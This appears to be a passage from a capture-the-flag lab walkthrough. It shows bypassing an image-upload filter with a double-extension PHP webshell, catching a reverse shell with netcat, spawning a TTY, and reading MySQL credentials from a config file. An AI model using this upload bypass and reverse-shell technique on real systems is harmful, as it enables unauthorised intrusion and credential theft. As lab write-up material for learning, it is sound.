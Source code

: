 The admin portal is actually just an image upload facility. I test with a basic image and it uploads to the /uploads/ directory. So from here I can attempt to exploit this and get a foothold.

### 3. Get a shell
Firstly I can do the most basic exploit and try to upload a php webshell called image.php. However this is blocked with the message:
```bash
Sorry, is not a valid file. Only allowed are: png,jpg,gif
Sorry, file not uploaded 
```
So I can just change the file extension to .png, then it uploads fine. This means I need to modify my exploit slightly to get the shell to work by changing the filename to image.php.jpg.
Then I upload the file, successfully bypassing the filter. Then go to the image to trigger the code with my listener running
```bash
kali@kali:~$ nc -lvp 9999
Listening on 0.0.0.0 9999
Connection received on 192.168.34.151 48291
Linux localhost.localdomain 2.6.32-573.8.1.el6.x86_64 #1 SMP Tue Nov 10 18:01:38 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 12:13:02 up  1:27,  0 users,  load average: 0.00, 0.02, 0.51
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.1$ python -c "import pty; pty.spawn('/bin/bash');"
python -c "import pty; pty.spawn('/bin/bash');"
bash-4.1$
```

### 3. Enumerate from foothold
First thing with the web user, as always, is to check out the web directories. There, there is a note left from another user, presumably an admin.
```bash
bash-4.1$ cat notes.txt
cat notes.txt
hey eezeepz your homedir is a mess, go clean it up, just dont delete
the important stuff.

-jerry
````
Let's quickly check out that user's folder.
```bash
bash-4.1$ ls /home/eezeepz
ls /home/eezeepz
MAKEDEV    chown        hostname  netreport       taskset     weak-modules
cbq        clock        hwclock   netstat         tc          wipefs
cciss_id   consoletype  kbd_mode  new-kernel-pkg  telinit     xfs_repair
cfdisk     cpio         kill      nice            touch       ypdomainname
chcpu      cryptsetup   killall5  nisdomainname   tracepath   zcat
chgrp      ctrlaltdel   kpartx    nologin         tracepath6  zic
chkconfig  cut          nameif    notes.txt       true
chmod      halt         nano      tar             tune2fs
```
Get the mysql username and password...
```bash
bash-4.1$ cat checklogin.php
cat checklogin.php
<?php

ob_start();
$host="localhost"; // Host name
$username="eezeepz"; // Mysql username
$password="4ll3maal12#"; // Mysql password
$db_name="hackmenow"; // Database name
$tbl_name="members"; // Table name
```